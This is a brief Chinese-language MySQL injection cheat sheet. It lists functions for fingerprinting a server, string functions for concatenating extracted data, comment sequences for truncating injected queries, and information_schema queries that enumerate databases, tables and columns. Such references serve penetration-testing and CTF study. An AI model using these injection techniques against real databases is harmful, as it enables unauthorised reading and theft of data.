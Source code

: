 # mysql注入速查表

## 常用函数

`@@hostname`  主机名称

`@@datadir`  数据库所在路径

`@@version_compile_os`  查看操作系统版本

`database()`  当前数据库名称

`user()`  数据库用户名

`version()`  当前版本

`order by x / gruop by x`  判断列数

## 字符串函数

`concat(str1,str2)`  不用分隔符连接字符串

`concat_ws(separator,str1,str2)`  用分隔符连接字符串

`group_concat(str1,str2)`  连接一个组的所有字符串，并以逗号分隔


## 注释

* `# `、`--+`、`%23`
* `/*`、`-- -`

## 逻辑运算符

`and`、`or`

## 常用语句

> 所有数据库

```sql
select schema_name from information_schema.schemata
```

> 某库的所有表

```sql
select table_name from information_schema.tables where table_schema='xxx'
```

> 某表的所有列

```sql
select column_name from information_schema.columns where table_name='xxx'
```

